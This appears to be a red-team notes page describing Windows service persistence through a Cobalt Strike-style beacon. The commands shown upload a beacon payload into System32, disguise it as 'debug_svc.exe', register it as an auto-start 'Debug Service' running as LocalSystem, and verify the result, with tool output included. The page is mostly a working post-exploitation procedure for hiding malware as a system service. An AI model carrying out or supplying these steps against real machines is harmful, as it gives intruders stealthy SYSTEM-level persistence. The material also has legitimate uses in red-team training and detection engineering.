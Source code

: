 # Windows Service

An adversary can also create a Windows service to run a payload under the context of SYSTEM, which will start when the computer boots up.\\

```batch
beacon> cd C:\Windows\System32\
beacon> upload C:\Payloads\beacon_x64.svc.exe
beacon> mv beacon_x64.svc.exe debug_svc.exe

beacon> sc_create dbgsvc "Debug Service" C:\Windows\System32\debug_svc.exe "Windows Debug Service" 0 2 3

 create_service:
  hostname:     
  servicename:  dbgsvc
  displayname:  Debug Service
  binpath:      C:\Windows\System32\debug_svc.exe
  newdesc:      The Windows Debug Service
  desclen:      26
  ignoremode:   0
  startmode:    2
  service_type: 10
SUCCESS.
```

Use `sc_qc` to verify that the service was created successfully.

```batch
beacon> sc_qc dbgsvc

SERVICE_NAME: dbgsvc
	TYPE                 : 10 WIN32_OWN
	START_TYPE           : 2 AUTO_START
	ERROR_CONTROL        : 0 IGNORE
	BINARY_PATH_NAME     : C:\Windows\System32\debug_svc.exe
	LOAD_ORDER_GROUP     : 
	TAG                  : 0
	DISPLAY_NAME         : Debug Service
	DEPENDENCIES         : 
	SERVICE_START_NAME   : LocalSystem
	CURRENT_STATUS       : STOPPED
```

